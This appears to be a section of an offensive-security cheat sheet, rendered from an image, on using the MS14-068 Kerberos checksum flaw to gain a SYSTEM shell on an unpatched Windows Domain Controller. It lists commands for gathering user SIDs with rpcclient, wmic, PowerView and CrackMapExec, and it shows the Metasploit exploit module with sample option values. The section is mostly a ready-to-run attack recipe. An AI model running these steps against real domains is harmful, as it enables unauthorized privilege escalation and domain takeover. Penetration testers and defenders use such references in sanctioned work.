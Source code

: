
## From CVE to SYSTEM shell on DC

> Sometimes you will find a Domain Controller without the latest patches installed, use the newest CVE to gain a SYSTEM shell on it. If you have a "normal user" shell on the DC you can also try to elevate your privileges using one of the methods listed in [Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)


### MS14-068 Checksum Validation

This exploit require to know the user SID, you can use `rpcclient` to remotely get it or `wmi` if you have an access on the machine.

* RPCClient
  ```powershell
  rpcclient $> lookupnames john.smith
  john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)
  ```
* WMI
  ```powershell
  wmic useraccount get name,sid
  Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
  Guest          S-1-5-21-3415849876-833628785-5197346142-501   
  Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
  Guest          S-1-5-21-297520375-2634728305-5197346142-501   
  krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
  lambda         S-1-5-21-297520375-2634728305-5197346142-1110 
  ```
* Powerview
  ```powershell
  Convert-NameToSid high-sec-corp.localkrbtgt
  S-1-5-21-2941561648-383941485-1389968811-502
  ```
* CrackMapExec: `crackmapexec ldap DC1.lab.local -u username -p password -k --get-sid`  

```bash
Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
```

Generate a ticket with `metasploit` or `pykek`

```powershell
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```
